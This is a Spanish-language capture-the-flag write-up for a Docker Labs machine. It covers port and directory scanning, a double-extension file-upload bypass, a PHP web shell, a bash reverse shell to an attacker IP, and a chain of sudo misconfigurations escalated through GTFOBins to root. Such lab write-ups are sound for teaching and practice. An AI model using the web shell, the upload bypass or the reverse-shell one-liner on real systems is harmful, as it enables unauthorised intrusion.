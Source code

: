 Primero verificamos si tenemos **ping** de la máquina de **Docker Labs**.
![[Pasted image 20241219231059.png]]

Iniciamos la fase de reconocimiento de los puertos de dicha máquina con **NMAP**.
```bash
nmap -p- -sT -sV -A $IP -oN elevator
```
![[Pasted image 20241219231223.png]]
	Al parecer, solamente tenemos el puerto 80 habilitado. Vamos a proceder a analizar dicha web.

Al parecer, es una simple web que, al presionar el botón **¡Abre el Ascensor!**, muestra una animación y un mensaje que aparece en la pantalla.
![[Pasted image 20241219231519.png]]
![[Pasted image 20241219231616.png]]

Siguiendo con la etapa de reconocimiento, vamos a usar **Gobuster** para el reconocimiento de directorios de dicha web.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -b 403,404 -x php,txt,php.bak,bak,tar
```
![[Pasted image 20241219232423.png]]

También procedemos a realizar el reconocimiento de directorios con **Feroxbuster**.
```bash
feroxbuster -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -d 10 -t 200 -x php,txt,html,php.bak,bak,tar --status-codes 200
```
![[Pasted image 20241219232642.png]]

Con **Feroxbuster** encontramos 2 ficheros con extensión **PHP** y **HTML**, los cuales vamos a analizar para proceder a su explotación.

En la ruta `http://172.17.0.2/themes/upload.php` encontramos un fichero que la web está interpretando, pero no visualizamos nada.
![[Pasted image 20241219232934.png]]

En la siguiente ruta `http://172.17.0.2/themes/archivo.html` encontramos un apartado donde podemos subir imágenes con extensión JPG.
![[Pasted image 20241219233219.png]]

Vamos a proceder primero a crear un fichero con la extensión `.php`, por si la web permite subir dicho fichero. Si es así, podemos aprovechar esta vulnerabilidad para ganar acceso a la máquina.
```php
<?php
    system($_GET['cmd'])
?>
```
![[Pasted image 20241219233937.png]]

Procedemos a subir el fichero a la web.
![[Pasted image 20241219234236.png]]

Pero al subir nuestro fichero **PHP**, la web no lo permite; solo nos permite subir ficheros con extensión **JPG**.
![[Pasted image 20241219234309.png]]

Vamos a realizar el método de doble **"double extension attack"**. Este ataque aprovecha las configuraciones de seguridad de los servidores web que pueden estar configurados para permitir la carga de archivos con ciertas extensiones, como `.jpg`, pero no de otras, como `.php`. 

En este ataque, renombramos el archivo para que tenga una extensión doble, como `reverShell.php.jpg`, lo que engaña al servidor para que lo permita cargar, mientras que el archivo PHP podría ejecutarse al acceder a él.
![[Pasted image 20241219234912.png]]

Nuevamente probaremos subir el fichero con la extensión doble a la web y verificaremos si nos lo permite.
![[Pasted image 20241219235244.png]]

**¡Bingo!** Logramos subir nuestro archivo y la web nos proporciona la ruta donde se encuentra ubicado. Procederemos a visualizarlo para comprobar si la web lo interpreta o no.
![[Pasted image 20241219235305.png]]

La web interpreta correctamente el archivo malicioso subido por nosotros. 
![[Pasted image 20241219235544.png]]

Al ejecutar el comando `id`, verificamos la respuesta del comando.
![[Pasted image 20241219235918.png]]

Ahora vamos a proceder a hacernos una revershell de la siguiente forma

[ * ] Web victima:
`172.17.0.2/themes/uploads/6764f820a0d32.jpg/?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0>%261"`
![[Pasted image 20241220000212.png]]

[ * ]  Shell Atacante
```bash
nc -nlvp 443
```
![[Pasted image 20241220000340.png]]

¡Bummmmm! Estamos dentro de la máquina, pero como el usuario `www-data`. Vamos a verificar los permisos SUID para verificar si podemos elevar los privilegios por este método.
![[Pasted image 20241220000407.png]]

Procederemos a realizar el tratamiento de la TTY para establecer una sesión interactiva más estable.
![[Pasted image 20241220001325.png]]
![[Pasted image 20241220001400.png]]

Lamentablemente no podemos tirar por esta lado.
![[Pasted image 20241220000754.png]]

Vamos a listar los comandos que el usuario puede ejecutar con privilegios de `root` usando `sudo -l`.
![[Pasted image 20241220001555.png]]
	En este caso, no podemos migrar como root, pero sí podemos migrar como el usuario **daphne**, con el cual podemos usar el comando `env`.

Con **GTFOBins**, vamos a buscar el binario `env` y listar los comandos que el usuario puede ejecutar como **daphne**
![[Pasted image 20241220002112.png]]

Ya estando como el usuario **daphne**, procederemos a listar nuevamente los comandos disponibles para verificar si podemos migrar a otro usuario o escalar privilegios.

Al listar nuevamente, verificamos que podemos migrar al usuario **vilma** usando el comando `ash`.
![[Pasted image 20241220002809.png]]

En **GTFOBins** nos indica cómo migrar, lo cual haremos con una pequeña modificación utilizando el parámetro `-u`, donde indicamos el nombre del usuario al cual vamos a migrar (en este caso, **vilma**).
![[Pasted image 20241220002918.png]]
![[Pasted image 20241220002944.png]]

Al parecer, la temática es de esta forma. Vamos a listar nuevamente los comandos o posibles configuraciones disponibles para verificar si podemos continuar con la migración

En este caso, podemos migrar al usuario **shaggy** usando el binario de **ruby**. Nos ayudaremos de **GTFOBins**.
![[Pasted image 20241220003323.png]]
![[Pasted image 20241220003313.png]]

Ganamos acceso al usuario shaggy.
![[Pasted image 20241220003759.png]]

Nuevamente, tenemos el binario **lua** para migrar como el usuario **fred**.
![[Pasted image 20241220004023.png]]
![[Pasted image 20241220004133.png]]

Ahora logramos migrar al usuario **fred**.
![[Pasted image 20241220004214.png]]

Para migrar al usuario **scooby**, tenemos que usar el binario **gcc**.
![[Pasted image 20241220004307.png]]
![[Pasted image 20241220004404.png]]

Logramos migrar al usuario **scooby**. Ahora, vamos a proceder nuevamente a listar.
![[Pasted image 20241220004454.png]]

Finalmente, podemos migrar al usuario **root** utilizando el binario **sudo**.
![[Pasted image 20241220004622.png]]

# $BLING $BLING SOMOS ~~ROOT~~
![[Pasted image 20241220004749.png]]

